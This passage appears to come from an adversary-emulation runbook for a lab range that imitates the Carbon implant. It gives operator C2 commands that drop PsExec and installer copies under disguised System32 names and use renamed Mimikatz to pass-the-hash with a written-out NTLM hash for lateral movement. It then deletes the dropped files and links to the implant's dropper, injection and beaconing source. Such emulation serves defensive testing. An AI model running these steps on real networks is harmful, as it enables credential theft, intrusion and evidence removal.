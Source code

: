 * Close any spurious windows

* Open up Edge, but don't browse to any website just yet. The browser process is needed for Carbon comms lib DLL injection to occur.

:arrow_right: Wait 1 minute and return to your Kali control server terminal

* Task the CARBON-DLL implant on the domain controller to download PsExec.

```bash
./evalsC2client.py --set-task a3e63922 '{"id": 4, "payload": "PsExec.exe", "payload_dest": "C:\\Windows\\Temp\\tmp5712.tmp", "cmd": "move C:\\Windows\\Temp\\tmp5712.tmp C:\\Windows\\System32\\wsqsp.exe && dir C:\\Windows\\System32\\wsqsp.exe"}'
```

* Wait 1 minute and then task the CARBON-DLL implant on the domain controller
to download a third copy of the CARBON-DLL installer.

```bash
./evalsC2client.py --set-task a3e63922 '{"id": 5, "payload": "carbon_installer_3.exe", "payload_dest": "C:\\Windows\\Temp\\tmp1283.tmp", "cmd": "move C:\\Windows\\Temp\\tmp1283.tmp C:\\Windows\\System32\\wsqmanager.exe && dir C:\\Windows\\System32\\wsqmanager.exe"}'
```

* Wait 1 minute and then task the CARBON-DLL implant on the domain controller
to use the previously downloaded Mimikatz to pass-the-hash and (1) copy the
installer to Adalwolfa's workstation and (2) execute it using PsExec.

```bash
./evalsC2client.py --set-task a3e63922 '{"id": 6, "cmd": "C:\\Windows\\System32\\terabox.exe \"pr::d\" \"slsa::htp /user:adalwolfa /domain:skt /ntlm:07d128430a6338f8d537f6b3ae1dc136 /remotepc:khabibulin /pexe:C:\\Windows\\System32\\wsqsp.exe /sys:1 /prun:C:\\Windows\\System32\\wsqmanager.exe\" \"quit\""}'
```

:heavy_exclamation_mark: Verify that a new Carbon implant has been registered with the control server.

* Wait 1 minute and then task the CARBON-DLL implant on the domain controller to clean up dropped files.
```bash
./evalsC2client.py --set-task a3e63922 '{"id": 7, "cmd": "del /Q C:\\Windows\\System32\\terabox.exe C:\\Windows\\System32\\wsqsp.exe C:\\Windows\\System32\\wsqmanager.exe"}'
```

### :moyai: Source Code

* [CARBON-DLL installer](../../Resources/Carbon/CarbonInstaller/README.md)
  * [Drop components](../../Resources/Carbon/CarbonInstaller/Dropper/src/file_handler.cpp#L178)
  * [Create Loader Service](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L170)
    * Service registry edits: [1](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L230), [2](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L284)
  * [Start Loader Service](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L354)
  * [Loader Service](../../Resources/Carbon/CarbonInstaller/Loader/src/service.cpp)
* [CARBON-DLL Orchestrator](../../Resources/Carbon/Orchestrator/README.md)
  * [Comms Lib DLL Injection](../../Resources/Carbon/Orchestrator/src/injection.cpp#L454)
  * [Task Execution](../../Resources/Carbon/Orchestrator/src/tasking.cpp#L388)
* [CARBON-DLL Comms Lib](../../Resources/Carbon/CommLib/README.md)
  * [Beacon and task/payload retrieval over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L313)
  * [Upload task output over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L342)
  * [Peer to peer communications over named pipes](../../Resources/Carbon/CommLib/src/NamedPipeP2p.cpp)
* [Mimikatz](../../Resources/Mimikatz)
